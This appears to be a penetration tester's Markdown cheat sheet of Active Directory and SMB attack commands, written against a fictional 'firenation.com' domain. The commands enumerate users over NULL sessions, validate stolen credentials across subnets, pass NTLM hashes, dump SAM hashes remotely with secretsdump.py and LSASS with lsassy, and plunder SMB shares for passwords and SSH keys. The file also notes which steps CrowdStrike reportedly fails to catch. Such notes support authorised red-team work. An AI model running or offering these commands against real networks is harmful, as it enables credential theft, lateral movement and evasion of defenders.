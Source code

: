 # EVERY VILLAIN IS LEMONS
This file contains all the eeevvvvil pentesting notes, handy commands, and the like that could be found useful. Organized by protocol (or environment) and tool.

Notes:
 * Impacket for the most part allows you to auth with Kerberos, using `-k`. You will need to export a local file `KRB5CCNAME` with the ticket in it.
 * Impacket for the most part also supports hash passing (overpass the hash?) because...well Microsoft: `-hashes LMhash:NThash`
 
References:
 * https://gist.github.com/jivoi/c354eaaf3019352ce32522f916c03d70
 * https://ired.team/offensive-security/ (Fantastic - good for stealth options!)

# Network
## TCP/445 SMB
- Check for NULL sessions (target DCs mostly):
  ```
  rpcclient -U '' dc.firenation.com   # NULL _needs_ the -U ''
  ```
- Auth session to get domain users, groups, etc.
  ```
  rpcclient -U 'azula%F!r3R0cks!' dc.firenation.com` | tee rpcclient-enumdomusers.txt
  > enumdomusers
  ```
- Check owned creds for local administrator access
  ```
  CredNinja.py -s subnets.lst -a 'firenation.com/azula:S0z1nsC0m3t' --scan --valid --users | tee cred-check.out
  CredNinja.py -s subnets.lst -a 'firenation.com/azula:NThash' --scan --valid --users --ntlm | tee cred-check.out
  ```
- If you have local admin somewhere, use secretsdump.py to remotely dump SAM hashes:
  ```
  secretsdump.py 'firenation.com/azula:S0z1nsC0m3t@10.11.1.11'
  secretsdump.py -hashes LMhash:NThash 'firenation.com/azula@10.11.1.11'
  ```
  As far as I've seen, this is not being caught when run remotely. CrowdStrike hasn't alerted on it yet.
- [ ] See if you can do a remote LSASS dump using `lsassy`:
  ```
  lsassy -d firenation.com -u azula -p S0z1nsC0m3t subnet-or-file-with-nmap-syntax.lst
  ```
  This is **extremely** noisy and CrowdStrike or other tools may absolutely explode, and stop you or at the very least generate alerts. It's not meant to be stealthy.
  - [ ] With SAM hashes, run those through `CredNinja.py` as shown above to see if you owned a network-wide local admin
  - [ ] Log in to target machines with via SMB and look for interesting files:
   ```
   smbclient.py 'firenation.com/azula:S0z1nsC0met@10.11.1.11'
   ## TODO: plunder
   ```
  - [ ] Look for user shares/SMB servers and see if there are lax permissions. See if you can find password files, sensitive data, hardcoded creds in scripts, SSH keys, anything juicy.
    - [ ] See some interesting attacks like [this](https://www.criticalstart.com/from-the-trenches-relaying-passwords-for-the-win/) and [this](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)  
  